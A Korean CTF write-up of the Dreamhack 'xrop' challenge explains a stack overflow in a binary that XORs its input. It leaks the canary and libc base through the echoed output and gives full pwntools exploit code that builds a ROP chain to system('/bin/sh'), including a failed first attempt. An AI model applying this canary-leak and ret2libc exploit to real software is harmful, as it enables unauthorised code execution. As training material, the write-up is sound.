










# [Dreamhack.io] xrop Write-Up

- **Platform:** Dreamhack
- **Date:** 2026-08-30 (solved) / 2026-09-01 (written)
- **Difficulty:** Medium
---

## 1. Challenge Overview (문제 개요)

> [!TIP]
> 📖 **문제 요약**
> - **목표:** `/bin/sh` 실행
> - **제공 파일:**
> ```text
> ┌──── Dockerfile
> ├──── flag
> └──── deploy/
>     └──── prob
> ```
> - **보호 기법:**
> ```text
> Arch:       amd64-64-little
> RELRO:      Full RELRO
> Stack:      Canary found
> NX:         NX enabled
> PIE:        PIE enabled
> SHSTK:      Enabled
> IBT:        Enabled
> Stripped:   No
> ```

---

## 2. Vulnerability Analysis (취약점 분석)

### 소스 코드 / 디컴파일 분석

- 다음은 ghidra로 분석한 `main` 함수이다.

```c
undefined8 main(void)
{
  ssize_t sVar1;
  char *pcVar2;
  long in_FS_OFFSET;
  int local_30;
  byte local_28 [24];
  long local_10;
  
  local_10 = *(long *)(in_FS_OFFSET + 0x28);
  setvbuf(stdin,(char *)0x0,2,0);
  setvbuf(stdout,(char *)0x0,2,0);
  setvbuf(stderr,(char *)0x0,2,0);
  do {
    printf("Input: ");
    sVar1 = read(0,local_28,0x100);
    for (local_30 = 1; local_30 < (int)sVar1; local_30 = local_30 + 1) {
      local_28[local_30 + -1] = local_28[local_30] ^ local_28[local_30 + -1];
    }
    printf("You entered: %s\n",local_28);
    pcVar2 = strtok((char *)local_28,"exit");
  } while (pcVar2 != (char *)0x0);
  if (local_10 == *(long *)(in_FS_OFFSET + 0x28)) {
    return 0;
  }
                    /* WARNING: Subroutine does not return */
  __stack_chk_fail();
}
```

- 흐름은 다음과 같다.
	1. 사용자의 입력을 받고, xor을 진행한다.
	2. 이후 xor된 문자열 내에서 `e`, `x`, `i`, `t`를 구분자로 하여 분리한다.
	3. 분리할 수 없다면 루프문을 빠져나오고, 그렇지 않으면 다시 1번으로 되돌아간다.

- 여기서 사용자 입력을 받을 때, `local_28` 변수보다 많이 받을 수 있어 스택 버퍼 오버플로우가 발생한다.

> [!IMPORTANT]
> ⭐ **이 문제와 다른 ROP 문제 간의 차이점**
> - 지금까지 풀어본 ROP 문제의 경우에는 주어진 바이너리 내에 `pop rdi; ret`, `pop rsi; pop r15; ret` 등의 ROP 체인을 구성할 수 있는 가젯들이 있어서 이를 통해 라이브러리 함수의 실제 주소를 알아낼 수 있었다.
> 
> 
> 
> - 하지만, 위의 사진과 같이 현재 바이너리 내에 함수의 전달인자를 설정할 수 있는 쉬운 가젯들이 없는 상황이다. (다른 가젯들로 구성할 수 있을 것이다. 하지만 그러면 페이로드가 길어지고, 정렬이 문제가 될 때 디버깅하기 어려울 것이라 생각해 다른 방법을 찾아보았다.)
> - 결국은 라이브러리의 베이스 주소를 알아야 쉘을 획득할 수 있는데 어떤 방법이 있을까...
> 
> - 여기서 `main` 함수의 리턴 주소를 이용할 수 있다.
> - 바이너리가 시작되면 다음과 같은 순서로 `main` 함수가 호출된다.
> ```text
> __libc_start_main() -> __libc_start_call_main() -> main()
> ```
> 
> - `__libc_start_call_main()`도 라이브러리에 존재하는 함수이기 때문에 `main()`의 리턴 주소를 알게 되면, 라이브러리의 베이스 주소를 알 수 있다.


---

## 3. Exploit Strategy (최종 해결 전략)

> [!TIP]
> ✏️ **페이로드 구성**
> - 루프문에서 총 세 번의 입력을 진행한다.
> 	- 첫 번째 입력: Canary을 알기 위해, 최상위 바이트까지 더미값으로 채운 뒤, 출력값을 Decrypt하여 카나리를 알아낸다.
> 	- 두 번째 입력: SFP까지 더미값으로 덮은 뒤, 출력값을 Decrypt하여 `main` 함수의 리턴 주소를 알아낸다.
> 		- 여기서 라이브러리 베이스 주소를 알 수 있다.
> 	- 세 번째 입력: 루프문을 빠져나오기 위해, xor했을 때 `exit` 문자열만 생기게 입력값을 조절하고, 그 뒤로 카나리, SFP에 들어갈 더미값, ROP 체인을 넣는다.

### 라이브러리 가젯과 함수들의 오프셋 구하기

- 라이브러리 버전이 같다면 가젯과 함수의 오프셋은 동일하다.
- 이 점을 이용해 먼저 오프셋을 구해보자. (아래 과정은 주어진 Dockerfile을 빌드한 뒤 도커 내부에서 진행하였다.)


* gdb를 이용해 바이너리를 Entry Point에 멈춘 뒤, `__libc_start_call_main` 주소를 출력한 결과이다.


- `__libc_system` 주소를 출력한 결과이다.


- 위 사진의 형광색으로 표시한 부분이 동적 링크된 바이너리의 시작 주소이다.
  (이제까진 pwndbg의 `vmmap`으로만 해서 gdb의 경우는 구글링해서 찾아보았다.)
- 그러면 `__libc_start_call_main`과 `__libc_system` 함수의 오프셋은 다음과 같다.

```text
__libc_start_call_main의 오프셋 = __libc_start_call_main 실제 주소 - 라이브러리 베이스 주소 = 0x77e4f4fc1d10 - 0x77e4f4f98000 = 0x29d10

__libc_system의 오프셋 = __libc_system 실제 주소 - 라이브러리 베이스 주소 = 0x77e4f4fe8d70 - 0x77e4f4f98000 = 0x50d70
```


- 라이브러리 내에서 `pop rdi; ret` 가젯까지의 오프셋을 구하면 0x2a3e5 임을 알 수 있다.


- 마찬가지 방법으로 `ret` 가젯은 0x29cd6 오프셋을 가짐을 알 수 있다.


- 바이너리 파일 내 문자열을 검색하는 `strings` 명령어를 통해 `/bin/sh` 문자열의 오프셋을 구하면 0x1d8678이다.

* 마지막으로 `main` 함수가 리턴될 때의 위치를 알아보자. (`main` 함수의 `RET` 값은 `__libc_start_call_main`의 어딘가이므로 이를 알아야 정확히 시작 주소를 알 수 있다.)


- pwndbg을 통해 `main` 함수로 들어온 모습이다. (진작 깔걸...)
- BACKTRACE 메뉴를 통해 `main` 함수는 `__libc_start_call_main+128`로 리턴함을 알 수 있다.
- 그렇다면 `main` 함수의 `RET` 주소에서 128을 빼면 `__libc_start_call_main`의 시작 주소를 알게 되고, 여기서 해당 함수의 오프셋을 빼면 라이브러리 베이스 주소를 알 수 있다.

---

## 4. Trial & Error (삽질 및 실패 기록)

> [!CAUTION]
> ⚠️ Attempt 1: 도커에서 구한 오프셋이 원격에서는 맞질 않아요...
> - **가설:** 도커에서 열심히 구한 오프셋으로 ROP 체인을 구성하면 원격에서 터지겠지?
> - **시도 내용:** 코드는 아래에 첨부하겠다.
> - **결과 및 에러:** `EOFError` 발생
> 
> 
> 
> - **원인 분석:**
> 	- dreamhack에서 해당 문제에 대한 질문 중 나와 같은 현상의 분이 있어 참고해보았다.
> 	- 결국 도커 환경에서 pwndbg나 gdb를 설치하면서 libc 버전이 약간 달라진 것이었다.
> 	- 다음부터는 도커를 빌드하자마자 내부에서 `libc.so.6` 파일만 빼오는 방식으로 진행해야겠다.

```python
# Exploit
libc_pop_rdi_offset         = 0x2a3e5
libc_ret_offset             = 0x29cd6
libc_start_call_main_offset = 0x29d10
libc_system_offset          = 0x50d70
libc_binsh_offset           = 0x1d8678

payload = b''
for i in range(0x28):
    payload += chr(i).encode()
p.sendafter(b'Input: ', payload)

p.recvuntil(b': ')
p.recvn(0x28)

ret_addr = u64(p.recvn(0x6) + b'\x00' * 2)

libc_base       = ret_addr - 128 - libc_start_call_main_offset
libc_pop_rdi    = libc_base + libc_pop_rdi_offset
libc_ret        = libc_base + libc_ret_offset
libc_system     = libc_base + libc_system_offset
libc_binsh      = libc_base + libc_binsh_offset

slog('libc base', libc_base)
slog('pop rdi', libc_pop_rdi)
slog('ret', libc_ret)
slog('system', libc_system)
slog('/bin/sh', libc_binsh)

payload = b'exit\x00'.ljust(0x18, b'\x00') + p64(cnry) + b'12345678'
payload += p64(libc_pop_rdi) + p64(libc_binsh)
payload += p64(libc_ret) + p64(libc_system)
payload = xor_decrypt(payload)

p.sendafter(b'Input: ', payload)

p.interactive()
```

---

## 5. Exploit Code (최종 익스플로잇 코드)

```python
from pwn import *

context.log_level = 'debug'
context.terminal = ['tmux', 'splitw', '-h']

# p = process('./prob')
p = remote('host3.dreamhack.games', 10038)
e = ELF('./prob')

def slog(name, addr): return success(': '.join([name, hex(addr)]))

def xor_encrypt(data):
    data = bytearray(data)

    for i in range(1, len(data)):
        data[i-1] ^= data[i]

    return bytes(data)

def xor_decrypt(data):
    data = bytearray(data)

    for i in range(len(data) - 1, 0, -1):
        data[i - 1] ^= data[i]

    return bytes(data)

# Leak Canary
payload = b''
for i in range(0x19):
    payload += chr(i).encode()
p.sendafter(b'Input: ', payload)

p.recvuntil(b': ')
p.recvn(0x19)

cnry = u64(b'\x00' + p.recvn(7))

slog('canary', cnry)

# Exploit
libc_pop_rdi_offset         = 0x2a3e5
libc_ret_offset             = 0x29cd6
libc_start_call_main_offset = 0x29d10
libc_system_offset          = 0x50d60
libc_binsh_offset           = 0x1d8698

payload = b''
for i in range(0x28):
    payload += chr(i).encode()
p.sendafter(b'Input: ', payload)

p.recvuntil(b': ')
p.recvn(0x28)

ret_addr = u64(p.recvn(0x6) + b'\x00' * 2)

libc_base       = ret_addr - 128 - libc_start_call_main_offset
libc_pop_rdi    = libc_base + libc_pop_rdi_offset
libc_ret        = libc_base + libc_ret_offset
libc_system     = libc_base + libc_system_offset
libc_binsh      = libc_base + libc_binsh_offset

slog('libc base', libc_base)
slog('pop rdi', libc_pop_rdi)
slog('ret', libc_ret)
slog('system', libc_system)
slog('/bin/sh', libc_binsh)

payload = b'exit\x00'.ljust(0x18, b'\x00') + p64(cnry) + b'12345678'
payload += p64(libc_pop_rdi) + p64(libc_binsh)
payload += p64(libc_ret) + p64(libc_system)
payload = xor_decrypt(payload)

p.sendafter(b'Input: ', payload)

p.interactive()
```

- 원격에서 오프셋을 바꾸고 진행하면 다음과 같이 잘 나오는 것을 볼 수 있다.



---

## 6. 배운 점 && 오답 노트

- **새로 배운 점:**
	- `__libc_start_call_main`: 라이브러리 내 함수에서 메인 함수를 호출하는 함수로서, 만약 다른 가젯이 없어 함수들의 실제 주소를 가지고 오지 못할 경우, `RET` 주소를 통해 라이브러리의 베이스 주소를 알아보자.
	- 도커 환경에서 해야 할 것: pwndbg나 gdb를 설치하게 되면 원격 서버와 libc 버전이 약간 달라지게 된다. 따라서 빌드하자마다 `libc.so.6` 파일만 밖으로 빼오는 식으로 진행하자.